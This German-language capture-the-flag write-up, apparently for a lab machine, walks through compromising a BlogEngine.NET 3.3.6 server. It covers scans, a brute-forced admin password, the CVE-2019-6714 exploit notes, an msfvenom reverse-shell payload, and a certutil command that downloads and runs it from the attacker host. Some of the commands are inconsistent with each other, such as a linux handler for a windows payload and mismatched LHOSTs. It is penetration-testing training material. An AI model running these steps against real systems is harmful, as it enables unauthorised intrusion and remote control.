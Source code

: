 # Ziel: 10.10.207.184

# Scanning 

## Nmap 

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements

3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2025-10-07T12:28:48+00:00; -1s from scanner time.


MAC Address: 02:C8:10:B2:62:29 (Unknown)

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## Nikto 

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.207.184
+ Target Hostname:    10.10.207.184
+ Target Port:        80
+ Start Time:         2025-10-07 13:29:17 (GMT1)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/8.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'content-style-type' found, with contents: text/css
+ Uncommon header 'content-script-type' found, with contents: text/javascript
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x3d1dc2fc254ad51:0 
+ File/dir '/search/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/search.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 6 entries which should be manually viewed.
+ Server banner has changed from 'Microsoft-IIS/8.5' to 'Microsoft-HTTPAPI/2.0' which may suggest a WAF, load balancer or proxy is in place
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ Uncommon header 'x-aspnetwebpages-version' found, with contents: 3.0
+ OSVDB-3092: /archive/: This might be interesting...
+ OSVDB-3092: /archives/: This might be interesting...
+ 6544 items checked: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2025-10-07 13:29:40 (GMT1) (23 seconds)
---------------------------------------------------------------------------

```

## Walking the site: 
Login Page 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

-> Vermutlich login name Admin

Brute forcing via Burp Intruder und Sniper attack mode

->  Passwort found 
1qaz2wsx


### FINDINGS
Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

# Initial Access 

Gegeben von zuvor 

Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

Feststellung BlogEngine.NET Version: 3.3.6.0 

## Kontrolle auf Exploits mit searchsploit

root@ip-10-10-226-42:~# searchsploit BlogEngine.NET 3.3.6
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                   | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                   | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                              | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                              | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                           | aspx/webapps/47014.py


## Low Hanging Fruit -> Exploiting w Metasploit

-> Keine Resultate 


## Umschauen im Netz um mehr Infos zu den Exploits zu bekommen 

https://www.exploit-db.com/exploits/46353

CVE-2019-6714

Zuerst laden wir uns den Code runter und lesen die Kommentare hier wird die Funktionalität auch schon erklärt
```
```cs
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```

Da die NetCat shell aber super instabil ist Upgraden wir auf eine Revshell von msfvenom bzw eine Meterpreter shell

Hierzu erstellen wir die Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.88.32 LPORT=3333 -f exe > rev.exe
```

Starten den Rev shell handler
```
mfsconsole
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.88.23
set LPORT 3333

exploit
```

Jetzt müssen wir nurnoch die shell auf das ziel bekommen und ausführen 

Hierfür starten wir einen basic web server auf dem angreifer system via 

```
python3 -m http.server
```

Jetzt steht die datei unter 

http://10.10.88.23:8000/rev.exe
zur verfügung und wir laden sie auf dem ziel runter. Ich habe hierführ den Temp Ordner genutzt da der meistens ohne Probleme funktioniert

```
cd c:\Windows\Temp

certutil -urlcache -split -f http://10.10.88.23:8000/rev.exe rev.exe

rev.exe
```

Schon haben wir die Rev shell mit dem Handler gefangen

